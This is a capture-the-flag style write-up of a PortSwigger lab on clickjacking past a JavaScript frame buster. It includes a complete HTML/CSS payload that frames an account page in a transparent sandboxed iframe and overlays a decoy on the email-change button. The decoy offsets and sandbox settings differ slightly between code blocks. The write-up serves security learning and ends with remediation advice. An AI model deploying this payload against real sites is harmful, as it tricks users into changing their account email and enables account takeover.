




# LAB 03 - Clickjacking with a frame buster script

## Lab Information

- **Category:** ClickJacking
- **Type:** Clickjacking with a frame buster script
- **Difficulty:** APPRENTICE
- **Status:** ✅ Solved
- **Date:** 2026-9-25

---


---

# Table of Contents

- Executive Summary
- Lab Information
- Objective
- Vulnerability Overview
- Attack Prerequisites
- Environment & Scope
- Methodology
- Discovery Process
- Technical Analysis
- Payload Analysis
- Exploitation Flow
- Evidence
- Impact
- Root Cause
- Risk Assessment
- Remediation
- Lessons Learned
- References
- Screenshots

---

# Executive Summary

A "clickjacking" vulnerability was discovered in the email change function—which included a "frame buster" protection mechanism—where the JavaScript code contained a conditional check intended to prevent the target page from being embedded. However, the parameter responsible for updating the email address could be controlled via the URL; the account page accessible to logged-in users lacked effective anti-framing protections, allowing it to be embedded within an `iframe` and enabling the email value to be set through the URL specified in the `src` attribute. A deceptive UI element was placed over the actual "Change Email" button, thereby causing the victim's click to be delivered to the legitimate sensitive control underneath the decoy element.

---

# Objective

This lab demonstrates how an attacker can embed an authenticated account page within an iframe despite the presence of a "Frame Buster" designed to prevent. It also shows how to render the target page transparently while overlaying deceptive elements on top of the legitimate "Update email" buttons, thereby tricking the victim into unintentionally updating their account.

---

# Vulnerability Overview

A Clickjacking vulnerability occurs when an attacker overlays or disguises a legitimate web interface so that a victim believes they are interacting with the attacker's decoy interface while their interaction is actually delivered to a sensitive element within the framed target page.

---


# Attack Requirements

1. The target page must be frameable by the attacker.
2. The attacker must be able to control the framing page's layout and CSS.
3. The target page must contain a security-sensitive user action that can be triggered through a click.
4. The victim must be authenticated to the target application.
5. The target page relies on a client-side frame-busting script rather than effective server/browser-enforced anti-framing controls

---

# Environment & Scope

| Item | Value |
|------|-------|
| Target | PortSwigger Web Security Academy lab |
| Primary Endpoint | `/my-account/change-email` |
| Primary HTTP Method | POST |
| Primary Action | Change email |
| CSRF Parameter | `csrf` |
| Authentication | Session cookie |
| Attack Platform | Exploit Server |
| Attack Vector | Cross-site HTML / iframe |

---

# Methodology

1. Log in to the lab using the provided credentials.
2. Navigate to the page requiring authentication: `/my-account?id=wiener`.
3. Capture the request for the authenticated page (the account page) using Burp Suite.
4. Review the server response to check for anti-framing protections.
5. Verify that the response does not include the `X-Frame-Options` header or the Content Security Policy (CSP) `frame-ancestors` directive.
6. Note the presence of a JavaScript check designed to prevent the page from being embedded.
7. Test embedding the page using the `sandbox` attribute.
8. Embed the authenticated page within an `iframe` (using the `sandbox` attribute) hosted on the exploit server.
9. Overlay a deceptive element on top of the legitimate "Update email" button.
10. Verify that the victim's email address has been changed to the value controlled by the attacker.
    
---

# Discovery Process

### Step 1 — Capture the authenticated account page request

```text
GET /my-account?id=wiener HTTP/2
HOST: XXXXXXXXXX web-security-academy.net
Cookie: session=XXXXXXXXX
```

The request displays the username "wiener" along with the session data; we use the Repeater to resend the same request and obtain the server's response for analysis.

### Step 2 — Reviewing the response

```text
HTTP/2 200 OK
Content-Type text/html; charset-utf-8
Cache-control:no-cache
Content-Length: 6654
```
Upon reviewing the response headers, no `X-Frame-Options` header or CSP `frame-ancestors` directive was present. The page was subsequently verified to be frameable by embedding it within an iframe.

### Step 3 — Frame Buster Review

```javascript
if(top != self) {
    window.addEventListener("DOMContentLoaded", function() {
        document.body.innerHTML = 'This page cannot be framed';
    }, false);
}
```
This JavaScript code prevents the page from being embedded within a frame; detects that the page is framed and replaces the page content "This page cannot be framed".

### Step 4 — Embedding experience with the sandbox attribute

```html
<iframe sandbox src = "LAB ID.web-security-academy/my-account"> </iframe>
```
We observe that the account page has appeared without the warning message, indicating that the page can be embedded using the `sandbox` attribute.

| Test | Result |
|------|-------|
| Normal iframe | This page cannot be framed |
| Sandboxed iframe | Authenticated account page rendered |

---

# Payload Analysis

## Payload Used

```html
<style>
    iframe {
        position: relative;
        width: 500px;
        height: 700px;
        opacity:0;
        z-index: 2;
    }

    .decoy {
        position: absolute;
        z-index: 1;
        top: 485px;
        left: 70px;
    }
</style>

<div class="decoy">Click me</div>

<iframe sandbox="allow-forms"
 src="https://LAB ID.web-security-academy.net/my-account?email=mohamad@gmail.com">
</iframe>
```

## Why This Payload Works

```html
<style>
   iframe {
        position: relative;
        
```
Specifies the positioning method of the iframe.

```html
        width: 500px;
        height: 700px;
```
They determine the dimensions of the frame.

```html
        opacity: 0;
```
They make the frame invisible to the user.

```html
        z-index: 2;
    }
```
They place the iframe in a layer above the decoy element.

```html
.decoy {
        position: absolute;
        z-index: 1;
        top: 510px;
        left: 70px;
    }
</style>
```
This section covers the styling of the deceptive element that will appear above the email update button; we adjust its height, left offset, position, and stacking order.
The decoy is visually presented to the victim, while the transparent iframe remains the higher interactive layer.

```html
<div class="decoy">Click me</div>

```
This part deals with creating the decoy element and the text within it.

```html
<iframe sandbox src="https://LAB-ID.web-security-academy.net/my-account?email=mohamad@gmail.com"></iframe>
```
This section covers the creation of a frame and the embedding of a target page within it using the `sandbox` attribute—which imposes restrictions on "frame busters"—as well as the inclusion of an attacker-controlled email address via the `src` attribute.
allow-forms permits form submission from the sandboxed document, which is required for the legitimate Change Email form to submit when the victim clicks the overlaid control.

---

# Exploitation Flow

```text

Victim is authenticated
        ↓
Attacker page loads sandboxed iframe
        ↓
Authenticated /my-account page is rendered
        ↓
Frame Buster does not replace the page
        ↓
iframe is made transparent
        ↓
Decoy element is positioned over Update email
        ↓
Victim clicks the visible decoy
        ↓
Click reaches the legitimate Update email button
        ↓
Legitimate Change Email form is submitted
        ↓
Victim's email address is changed
  
```

---

# Impact

The demonstrated impact is an unauthorized change to the authenticated user's email address.

A successful Clickjacking attack can cause an authenticated victim to unintentionally submit the legitimate email-change form using an attacker-controlled email address.

Depending on the application's account-recovery and email-verification mechanisms, unauthorized email modification may have further security implications. These consequences are application-dependent and were not directly demonstrated in this lab.

---

# Root Cause

The root cause of the problem lies in the absence of effective anti-framing controls on the authenticated account page; 

Consequently, an attacker can embed the authenticated page and employ CSS-based UI redressing techniques to align a deceptive UI element with a legitimate, security-sensitive action.

---

# Risk Assessment

| Item | Value |
|------|-------|
| Severity |  Medium (context-dependent) |
| CVSS Score | Not calculated |
| CWE | CWE-1021: Improper Restriction of Rendered Page Layers or Frames |
| OWASP Reference | OWASP Clickjacking Defense Cheat Sheet |
| Exploitability | Demonstrated in lab |
| Business Impact | Unauthorized modification of the authenticated user's email address |

---

# Remediation

- ### Content Security Policy

Implement the `frame-ancestors` directive to explicitly control which origins are allowed to embed the application.

Examples:

Content-Security-Policy: frame-ancestors 'none';

or:

Content-Security-Policy: frame-ancestors 'self';


- ### X-Frame-Options

Deploy `X-Frame-Options` as an additional anti-framing control:

X-Frame-Options: DENY

or:

X-Frame-Options: SAMEORIGIN
    
---

# Lessons Learned

- The presence of a valid CSRF token does not inherently prevent Clickjacking. When the authenticated page is successfully framed and the       victim interacts with the overlaid interface, the legitimate form submission can include the valid CSRF token.
- UI Redressing Mechanism: The attack relies on layering two elements using CSS; the target website is rendered completely invisible via the    opacity property (`opacity: 0`), while deceptive buttons are placed over it to entice the victim into clicking.
- The Importance of Element Alignment: The technical success of the attack relies on precision in using positioning properties (such as         `top`, `left`, and `z-index`) to align the hidden, sensitive buttons with the visible, decoy buttons.
- Absence of basic browser defenses: The lab demonstrates that the site is vulnerable due to the lack of security headers that prevent          framing such as the `X-Frame-Options` header or the Content Security Policy (CSP), specifically the `frame-ancestors` directive.
- Severity of Impact: The attack demonstrates the potential to force a user into taking critical, irreversible actions (schanging their email address) with a single unintentional click.
- CSRF Token Limitation: A valid CSRF token protects against certain forged requests, but it does not by itself prevent Clickjacking when an    attacker can cause the victim to interact with the legitimate framed page.
- Reliance on a client-side frame-busting script alone does not provide reliable protection against Clickjacking

---

# References

- PortSwigger Web Security Academy — Clickjacking
- OWASP Clickjacking Defense Cheat Sheet
- Mozilla Developer Network (MDN Web Docs)
- FIRST — CVSS Specification

---

# Screenshots

## Request 


...

## Test




...

## View exploit



...

## Payload



...


## Successful 



---

# Conclusion

This practical assessment revealed a "Clickjacking" vulnerability affecting a critical action changing the email address despite the presence of a mechanism designed to prevent page embedding (a "Frame Buster").

In the absence of defensive mechanisms against this vulnerability such as `X-Frame-Options` or `Content-Security-Policy` an attacker can embed the target page (which contains the sensitive account update action) within an `<iframe>` element, using a sandboxed iframe to restrict the framed document in a way that prevents the frame-busting script from performing its intended defense. By setting the frame's opacity to zero, the attacker obscures the victim's view of the actual clickable area; they then position a `<div>` element over the "Update Email" button, tricking the victim into clicking it.
The key point is that protection against clickjacking attacks requires the use of a Content Security Policy (CSP) specifically the `frame-ancestors` directive—and the `X-Frame-Options` security header, rather than relying solely on a JavaScript-based solution (such as a "frame buster").

The lesson here is that a frame buster is not an effective mechanism for preventing a page from being embedded within a frame.
